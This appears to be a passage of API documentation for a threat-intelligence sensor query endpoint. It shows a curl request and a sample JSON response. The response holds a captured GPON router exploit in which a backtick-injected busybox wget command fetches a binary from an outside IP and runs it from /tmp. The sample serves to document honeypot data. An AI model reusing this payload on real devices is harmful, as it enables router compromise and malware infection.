 *Parameters*

* target: [String] target IP address or CIDR up to /24

*Output*

```shell
curl 'https://api.binaryedge.io/v1/query/sensors/ip/xxx.xxx.xxx.xxx' -H 'X-Token:API_TOKEN'
```

```json
{
  "query": "xxx.xxx.xxx.xxx",
  "total": 1,
  "targets_found": 1,
  "events": [{
    "port": 443,
    "results": [{
      "target": {
        "port": 443,
        "protocol": "tcp"
      },
      "origin": {
        "ts": 1549500839739,
        "type": "sinkhole",
        "ip": "xxx.xxx.xxx.xxx",
        "rdns": "xxx.xxx.xxx.example.com"
      },
      "data": {
        "payload": "POST /GponForm/diag_Form?style/ HTTP/1.1\\r\\nUser-Agent: Hello, World\\r\\nAccept: */*\\r\\nAccept-Encoding: gzip, deflate\\r\\nContent-Type: application/x-www-form-urlencoded\\r\\n\\r\\nXWebPageName=diag&diag_action=ping&wan_conlist=0&dest_host=`busybox+wget+http://185.244.25.98/bin+-O+/tmp/gaf;sh+/tmp/gaf`&ipv=0",
        "extra": {
          "http": {
            "method": "POST",
            "path": "/GponForm/diag_Form?style/",
            "version": "1.1",
            "headers": {
              "user-agent": "Hello, World",
              "accept": "*/*",
              "accept-encoding": "gzip, deflate",
              "content-type": "application/x-www-form-urlencoded"
            }
          }
        },
        "tags": ["HTTP_SCANNER"]
      },
    }]
  }]
}
```

#### /v1/query/sensors/search

